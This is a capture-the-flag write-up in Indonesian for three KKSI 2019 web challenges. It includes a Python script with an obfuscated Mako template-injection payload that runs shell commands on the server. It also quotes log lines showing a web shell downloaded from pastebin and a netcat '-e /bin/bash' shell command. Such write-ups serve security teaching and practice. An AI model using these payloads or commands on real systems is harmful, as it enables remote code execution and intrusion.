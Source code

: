﻿## Web
### Tsunade Gambling Master
Deskripsi :

> http://202.148.2.243:20001
> You have maximum input on this challenge 3 attempts!

Solusi :
Saat dibuka situsnya, kami mencoba melihat source code dari challenge yang diberikan. Kami mencoba melihat di script Javascript yang diload.

`//It's not flag! Don't Submit it`
 `//I Warn you!`
`var kepla_flag="KKSI2019{",place_flag="Tr0ll1ng_th3_Us3r",penutup="}";function get_point_now(){var t=$("#point").text();return parseInt(t)}function generate_judi_server(t){return Math.round(Math.random()*t)}function genertae_judi_client(){return batas=generate_judi_server(100),Math.round(Math.random()*batas)}function ready_to_serve(){return place_flag.split("_")}function serve(t){var e=t;for($i=0;$i<e.length;$i++)$("#flag"+$i).html("<img src='./fl4g/"+e[$i]+".png'>")}$(document).on("click","#adu",()=>{var t=genertae_judi_client(),e=generate_judi_server(100);$("#client").text(t),$("#server").text(e);var n=get_point_now();t>e?$("#point").text(n+1):$("#point").text(n-1)}),$(document).on("click","#judii",()=>{get_point_now()>=133333333337?(console.log("I know you inspect element it!"),$("#flag").text(place_flag+" Don't Submit it Bratan! It's wrong one!")):$("#flag").text("Go Away. Hus Hus")});`

Setelah dibeautify, kami menemukan sesuatu yang menarik.
```
function ready_to_serve() {
    return place_flag.split("_")
}

function serve(t) {
    var e = t;
    for ($i = 0; $i < e.length; $i++) $("#flag" + $i).html("<img src='./fl4g/" + e[$i] + ".png'>")
}
```
Setelah kami perhatikan, ternyata fungsi diatas tidak dipanggil oleh siapapun. Namun, fungsi `serve()`meminta input dari suatu array. Sementara fungsi `ready_to_serve()` mengeluarkan suatu array yang memecah variabel `place_flag` menjadi array. Lalu, kami mencoba menggabungkan kedua fungsi tersebut dan menjalankan fungsi berikut di console dan flagnya pun keluar.
> `serve(ready_to_serve())`

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/KKSI_2019/Tsunade_Gambling_Master/Tsunade%20-%201.png)
Flag : **KKSI2019{JScan_3asY_Troll1nG}**

### Mako Onii-Chan
Deskripsi :

> http://202.148.2.243:21201
> 
>[Main.py](https://drive.google.com/file/d/1HF3SKw4FrNcibCyUrQeaw84QO6XfPuGG/view)

Solusi :
Diberikan suatu file `main.py`, setelah kami analisa ternyata ini adalah file flask, maka kami mencoba melakukan SSTI. Setelah mencoba beberapa jenis SSTI, ditemukan payload yang bisa berjalan yaitu `${1+1}`. 

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/KKSI_2019/Mako_Onii-chan/Mako%20-%201.png)

Dengan bentuk payloadnya, kami mengetahui bahwa ini dibangun dengan framework Mako. Setelah mencari-cari jenis payload yang bisa digunakan, kami menyadari bahwa kita bisa melakukan import dengan mengganti parameter import menjadi ascii per karakternya dan di `chr()`.

![enter image description here](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/KKSI_2019/Mako_Onii-chan/Mako%20-%202.png)

Kami mencoba melakukan import subprocess untuk melakukan RCE dan ternyata bisa, dan akhirnya didapatkan flagnya.
```
import base64
import requests as r

exploit = '${__import__(chr(115)+chr(117)+chr(98)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115)).getoutput(chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116))}'

url = "http://202.148.2.243:21201/intro-gan"
name = exploit.encode('utf-32')
grup = base64.b64encode(name)
data = {'name': grup}
print(r.post(url, data=data).text)
```

![enter image description here](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/KKSI_2019/Mako_Onii-chan/Mako%20-%203.png)

Flag : **KKSI2019{64_32_16_8_4_2_0}**

### Read the Log

Deskripsi :
>[Get Flag Here](http://202.148.2.243:30011/)
>
>[Read the Log](https://drive.google.com/file/d/1zujIwaWX3i9wcmCJX6nYT2o6xtwIWFOM)

Solusi :
Saat membaca `access.log` yang disediakan, kami menemukan sesuatu yang menarik.
>https://pastebin.com/raw/zNg9JQ12 -O .system.php HTTP/1.1" 200 1070166 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36"
>
>172.17.0.2 - - [21/Oct/2019:00:43:40 +0700] "GET /.system.php?f=system&p=id HTTP/1.1" 200 53 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36"
>
>172.17.0.2 - - [21/Oct/2019:00:45:00 +0700] "GET /.system.php?f=system&p=nc -lvp 1337 -e /bin/bash HTTP/1.1" 504 494 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36"

Terlihat ada request ke `.system.php` yang mencurigakan dan memanggil perintah bash seperti nc dan id. Maka kami mencoba mengunjungi halaman tersebut dan ternyata kami bisa melakukan shell_exec disana.

Setelah melakukan ls, kami mengetahui bahwa flagnya ada di `fl4g.txt` (Saat lomba, nama file aslinya adalah `flllllllaaaaaaaaaaaaaaaaaaaaaaaaaaa_g.txt` namun diganti saat penulisan writeup)

Kami melakukan cat dan flagnya pun ditemukan.
![enter image description here](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/KKSI_2019/Read_the_Log/Log%20-%201.png)
Flag : **KKSI2019{Emang_Sabar_Adalah_Kuncinya}** 


